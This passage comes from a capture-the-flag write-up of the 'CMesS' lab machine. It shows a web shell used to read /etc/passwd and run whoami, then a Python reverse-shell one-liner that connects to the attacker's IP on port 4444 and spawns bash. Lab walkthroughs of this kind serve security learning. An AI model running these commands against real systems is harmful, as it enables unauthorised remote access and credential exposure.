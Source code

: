 - then we try to view /etc/passwd file to test http://cmess.thm/tmp/media_thumb/shell.php?1=cat+/etc/passwd and worked, we have Remote Code Execution (RCE)!!!!

![](assets/CMesS_assets/Pasted%20image%2020230521115711.png)

- we can run the `whoami` command

![](assets/CMesS_assets/Pasted%20image%2020230521120101.png)

## Foothold
- we can also see if python3 is running so we can attempt a reverse shell, and it is

![](assets/CMesS_assets/Pasted%20image%2020230521120213.png)

- now we run the following command with our netcat listening
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.80.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
- and we get a shell

![](assets/CMesS_assets/Pasted%20image%2020230521121926.png)

## Further Enumeration and Privilege Escalation
